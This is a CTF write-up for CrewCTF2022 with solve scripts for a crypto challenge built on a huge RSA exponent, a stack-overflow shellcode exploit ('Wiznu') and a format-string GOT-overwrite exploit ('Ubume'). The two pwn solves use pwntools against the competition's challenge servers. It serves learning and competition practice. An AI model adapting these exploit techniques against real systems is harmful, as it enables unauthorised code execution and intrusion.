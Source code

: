 ```yaml
---
title: "CrewCTF2022 Writeup"
date: 2022-04-18T02:29:57+08:00
summary: The HUGE e, Wiznu, Ubeme
categories: ["writeup"]
---
```


# CrewCTF2022 Writeup

Played CrewCTF2022 this weekend and solved some trivial challenges, recorded them here for remembering what I have done this weekend.

## The HUGE e

```python
from Cryptodome.Util.number import getPrime, bytes_to_long, inverse, isPrime
from secret import flag

m = bytes_to_long(flag)

def getSpecialPrime():
    a = 2
    for i in range(40):
        a*=getPrime(20)
    while True:
        b = getPrime(20)
        if isPrime(a*b+1):
            return a*b+1


p = getSpecialPrime()
e1 = getPrime(128)
e2 = getPrime(128)
e3 = getPrime(128)

e = pow(e1,pow(e2,e3))
c = pow(m,e,p)

assert pow(c,inverse(e,p-1),p) == m

print(f'p = {p}')
print(f'e1 = {e1}')
print(f'e2 = {e2}')
print(f'e3 = {e3}')
print(f'c = {c}')
```

I thought this challenge aims to test whether I know using ecm method to factor a big integer, however, I was wrong. The default factor method of sagemath is great. What matters is how to compute `e` efficiently. What we only need is \\(e \mod phi(p)\\) so we need to make \\(e2 \cdot e3\\) smaller. We can use Euler's theorem to solve the problem. As \\(e_1^{phi(phi(p))} \equiv 1 \mod phi(p)\\), we just need to compute \\(e_2^{e_3} \mod phi(phi(p))\\). Now we are done.

```python
from Cryptodome.Util.number import long_to_bytes

p = 127557933868274766492781168166651795645253551106939814103375361345423596703884421796150924794852741931334746816404778765897684777811408386179315837751682393250322682273488477810275794941270780027115435485813413822503016999058941190903932883823
e1 = 219560036291700924162367491740680392841
e2 = 325829142086458078752836113369745585569
e3 = 237262361171684477270779152881433264701
c = 962976093858853504877937799237367527464560456536071770645193845048591657714868645727169308285896910567283470660044952959089092802768837038911347652160892917850466319249036343642773207046774240176141525105555149800395040339351956120433647613

phi = p - 1
e = e1.powermod(e2.powermod(e3, euler_phi(phi)), phi)

d = inverse_mod(e, phi)
m = c.powermod(d,p)

print(long_to_bytes(m))
```

## Wiznu

There is a stack overflow problem which can be found easily. What's more, there is no NX. As a result, we can just inject shellcode to stack, and return to stack. The problem is I don't know where the flag is at first and this problem is addressed after asking the admin and resulting in a challenge update. Although the challenge is quite straightforward, I met several problems. Because the ASLR, debug is hard without pwntools. I met a quirk problem when using pwntools, which is I cannot break at `printf` because an unknown segfault. I solved this problem using one of feature of GDB, disabling ASLR, so, I can debug without pwntools. 

```python
import re
import pwn
pwn.context.update(arch='amd64', os='linux', encoding='utf-8')

my_pattern = re.compile("Special Gift for Special Person : (0x[0-9a-f]*)")

buffer_len = 0x108

# with pwn.process("./chall") as io:
with pwn.remote("wiznu.crewctf-2022.crewc.tf", 1337) as io:
    r = io.recvline()
    print(r.decode())
    addr = int(my_pattern.search(r.decode()).group(1), 16)
    print(hex(addr))

    shellcode = pwn.asm(f"""
    mov rax, 2
    mov rbx, 0x67616c662f66
    push rbx
    mov rbx, 0x74632f656d6f682f
    push rbx
    mov rdi, rsp
    xor rsi, rsi
    syscall
    mov rbx, rax
    mov rax, 0
    mov rdi, rbx
    mov rsi, {addr - 40}
    mov rdx, 40
    syscall
    mov rax, 1
    mov rdi, 1
    mov rsi, {addr - 40}
    mov rdx, 40
    syscall
    """)

    print(len(shellcode))

    io.send(shellcode.ljust(buffer_len, b'\x00') + pwn.p64(addr))

    r = io.recvrepeat(1)
    print(r)
```

## Ubume

I found a `win()` function in symbols so I should redirect the control flow to it. In addition, there is a format string vulnerability in the binary and a call to `exit()` just after the vulnerability. A straightforward idea is using the vulnerability to change the GOT of `exit()` to the address of `win()`. It's possible because of no PIE. 

```python
import pwn

def fmt_str_64(init : bytes, offset, target, addr):
    res = init
    offset += 14
    prev = len(init)
    format_string = b""
    for i in range(8):
        t = (addr >> (8 * i)) & 0xff
        pad = (t - prev) % 256
        if pad == 0:
            format_string += (f"%{offset + i}$hhn").encode()
        else:
            format_string += (f"%0{pad}c%{offset + i}$hhn").encode()
        prev = t
    padded = format_string.ljust(112, b"a")
    res += padded
    for i in range(8):
        res += pwn.p64(target + i)
    return res

win_addr = 0x0040070a

exit_addr = 0x00601040

payload = fmt_str_64(b"", 6, exit_addr, win_addr)

# with pwn.process("./chall") as io:
with pwn.remote("ubume.crewctf-2022.crewc.tf", 1337) as io:
    io.send(payload)
    io.interactive()
```


